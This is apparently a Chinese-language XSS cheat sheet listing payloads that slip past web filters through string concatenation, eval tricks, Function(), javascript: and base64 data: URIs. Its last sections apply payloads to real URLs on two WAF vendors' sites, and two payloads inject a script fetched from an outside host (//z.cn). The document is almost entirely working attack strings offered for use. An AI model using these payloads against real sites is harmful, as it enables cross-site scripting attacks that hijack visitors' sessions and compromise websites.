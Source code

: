 ```
<video/src/onerror=[1].map(eval('al'+'ert'));>
<video/src/onerror=[1].find(alert);>
<video/src/onerror=[1].every(alert);>
<video/src/onerror=[1].filter(alert);>
<video/src/onerror=[1].forEach(alert);>
<video/src/onerror=[1].findIndex(alert);>
```



**赋值和拼接**

```
<img src onerror=_=alert,_(1)>
<img src alt=al lang=ert onerror=top[alt+lang](1)>
<img src onerror=top[a='al',b='ev',b+a]('alert(1)')>
<img src onerror=['ale'+'rt'].map(top['ev'+'al'])[0]['valu'+'eOf']()(1)>
```



**创建匿名函数**

```
<video/src/onerror=Function('ale'+'rt(1)')();>
```



**伪协议**

```
<svg/onload=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<form action=javascript:alert(1)><input type=submit>
<a href=javascript:alert(123);>xss</a>
<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=>
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=></object>
<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==">
```



**安全狗**

```
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=top[`al`%2B`ert`](1);>
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=appendChild(createElement("script")).src="//z.cn">
```



**D盾**

```
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[`al`%2B`ert`](1);>
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```
